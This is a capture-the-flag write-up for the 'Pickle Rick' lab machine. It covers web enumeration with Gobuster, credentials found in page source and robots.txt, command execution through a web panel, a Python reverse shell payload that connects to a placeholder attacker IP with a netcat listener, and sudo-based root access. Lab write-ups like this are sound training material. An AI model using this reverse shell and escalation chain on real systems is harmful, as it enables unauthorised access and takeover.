

# Pickle Rick Challenge

## Room Info
- Name: Pickle Rick
- Difficulty: Easy
- Category: Linux / Web
- Focus: Enumeration, Credential Discovery, Remote Code Execution, Privilege Escalation

## Objectives
- Find Rick’s three secret ingredients
- Gain access to the web server
- Escalate privileges to root

## Exploitation

Upon visiting http://machine_ip, I inspected the page source and found a hidden HTML comment containing a username

I then ran a directory brute-force scan using Gobuster to uncover hidden paths:
``gobuster dir -u http://machine_ip -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 50 -x php,txt``

I checked robots.txt for hidden paths and found what appears to be the password 

I then navigated to /login.php, entered the credentials, and successfully authenticated

After logging in, I tested the command panel by running ``ls`` and it executed successfully, confirming Remote Command Execution (RCE)

After this i attempted to read a file using the ``cat`` command 
However, the command failed to execute, indicating that the panel likely sanitizes or restricts certain commands, especially those used for file reading.

To bypass this limitation, I decided to spawn a reverse shell to gain full terminal access.

 I checked whether Python was installed and which version was available by running ``which python`` in the commande panel

 

 After confirming that python3 was installed, i crafted a reverse shell payload based on the PentestMonkey cheat sheet
 <pre>
 python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("Attack_machine_ip",port_number)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.run(["/bin/sh","-i"])'
</pre>

On my local machine, I started a Netcat listener to catch the shell
``nc -nlvp 9999``

After submitting the payload through the command panel, I received a reverse shell connection, granting me interactive access to the target system.

Once the reverse shell was established i found the first secret ingredients in the Sup3rS3cretPickl3Ingred.txt file

The clue.txt i found 
``Look around the file system for the other ingredient.``

began exploring the file system to locate Rick’s secret ingredients. I started by navigating to the ``/home`` directory where i found ``rick`` directory where i found a file named  ``second-ingredient.txt`` containing the second secret ingredient

After retrieving the second ingredient, I attempted to access the /root directory ``cd /root``  access denied — as expected for a non-root user.

To explore privilege escalation options, I ran ``sudo -l``

Output revealed that I could run commands as root without a password.

I leveraged this to list the contents of /root and found the third and final secret ingredient.

